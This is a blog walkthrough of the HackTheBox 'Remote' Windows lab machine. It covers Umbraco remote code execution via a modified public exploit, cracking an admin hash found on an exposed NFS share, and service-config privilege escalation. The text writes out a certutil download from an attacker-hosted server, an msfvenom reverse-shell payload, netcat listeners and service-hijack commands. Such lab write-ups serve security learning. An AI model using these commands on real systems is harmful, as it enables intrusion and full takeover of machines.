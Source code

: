 ```yaml
---
author: Greenjam94
categories:
- Walkthroughs
ct_period_last_updated:
- default
date: "2020-07-04T03:37:38Z"
guid: https://www.hackerunder.dev/?p=870
id: 870
image: /wp-content/uploads/2020/07/HTB_Remote.png
tags:
- DLL hijacking
- HTB
- kali
- web shell
title: HackTheBox Remote Writeup
url: /hackthebox-remote-writeup/
---
```


Remote was a fun windows box to hack. This is my second active target on HTB. My first was [Traceback](https://www.hackerunder.dev/hackthebox-traceback-write-up/). Check that out for a similar web based exercise on Linux. Remote starts with a web vulnerability but requires finding credentials in a public share. DLL Hijacking is required to get a system shell.

## Lessons learned:

- Mounting a public windows share
- Exploit modifications – changing python code for a web exploit
- DLL Hijacking for privilege escalation

## Information gathering

An initial nmap scan reveals some listening services.   
`nmap -A -T4 10.10.10.180`

Of the services listed, a few seemed important.

- FTP
- web
- mountd
- RPC

Reviewing ftp, anonymous connections were not allowed and nothing was really visible here.

Web is running an application called **Umbraco**. Source code from the app can be found online. There are multiple exploits in the exploit-database and on Github.

Other Windows services were new to me. Some googling required, I figured out how to look into mountd. There’s an nmap script to check what is available.  
`nmap -p 2049 -sV --script=nfs-showmount -oG nfs-showmount 10.10.10.180`

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_1_nmap_nfs-1024x277.png)</figure>The directories and files related to the Umbraco web app are exposed. The first thing to look at is the config files. Database connection info, credentials, and API keys are commonly stored here.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_2_grep_config-1024x107.png)</figure>Database files (.sdf) are also good targets. Since it’s a binary file, a command like `strings` is required to make it readable. Adding `grep` we can find the username and hash of the admin user.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_3_grep_db-1024x126.png)</figure>`Hash-identifier` will confirm the hash format. `John` can be used to crack the SHA1 hash and reveal that the password is **baconandcheese**.

## Exploitation

Now that there is a user to authenticate with, [exploit 46153](https://www.exploit-db.com/exploits/46153) from exploit-db can be used. This creates command execution on the target. Before using the exploit we can see there is a few oddities about the script. Each line of the code ends with a semi-colon. The multi-line payload is wrapped in single quotes. To edit the payload easily, I replaced this with a simple string wrapped in triple double quotes “””.

The key part of the payload is below. There is multiple ways to improve this. What I originally did while exploiting this box was create two files. 46153-getnc.py and 46153-usenc.py where each had a hardcoded command.

```
<pre class="wp-block-code">```
string cmd = "";
```
```

As I write this review, it is clear that it would be easier to pass a variable. Just do the following and use a single file instead.  
`python3 46153fix.py "/c certutil -urlcache -split -f <hosted_file> <target_destination>"`

Using the exploit, we can copy the windows binary for netcat from kali onto the target and use it to open a reverse shell as a low privilege user, this allows us to get access to the user.txt proof file.

<div class="wp-block-image"><figure class="aligncenter size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_4_get_nc_onto_target.png)</figure></div>Note: Anything we are downloading from Kali needs to be hosted on a web server. Lately I’ve been a using a simple web server. `python3 -m http.server 80`   
However a great tool that provides a better visual interface and other features is [UpDog](https://www.hackerunder.dev/whats-updog/). Both are options to for hosting.

<div class="wp-block-image"><figure class="aligncenter size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_4_host_nc-1024x262.png)<figcaption>use python web server to host kali’s windows-binaries directory</figcaption></figure></div><figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_5_use_nc.png)<figcaption>use exploit and netcat to open a reverse shell</figcaption></figure><figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_5_listen_nc.png)<figcaption>listener with reverse shell</figcaption></figure>## Privilege Escalation

There are many commands to run that help gather information on how to get a better shell. One tutorial that walks through a lot is <https://www.fuzzysecurity.com/tutorials/16.html>

Running `wmic service where started=true get name, startname` will show us a list of started services running on the target. Going through this list reveals which are vulnerable to DLL Hijacking. One such service is UsoSvc or the “Update Orchestrator Service”. I followed an example from <https://www.nccgroup.com/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/> but modified what commands were used.  
  
I created a windows reverse shell with msfvenom. The command below creates an executable file we can upload like the netcat binary.  
`msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.39 lport=443 -f exe > root.exe`  
  
Use a python web server and the certutil command to download the file, then run the executable by changing the config of the UsoSvc service.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_6_host_root_mfsvenom-1024x150.png)<figcaption>host payload on Kali web server</figcaption></figure><figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_6_get_root_msfv_payload-1024x284.png)</figure>```
<pre class="wp-block-preformatted">sc stop UsoSvc
sc config UsoSvc binpath="c:\windows\temp\root.exe
sc start UsoSvc
```

Make sure that a netcat listener is already listening `nc -nlvp 443` before running the start command.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_7_dll_hijack-1024x446.png)</figure>This returns a system level shell that can do anything on Remote. At this point you can create a permanent backdoor, clean up exploit files, or simply revert the box and move on to the next challenge.

<figure class="wp-block-image size-large">![System reverse shell on Remote through a netcat listener](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_8_get_system.png)<figcaption>System reverse shell on a netcat listener</figcaption></figure>
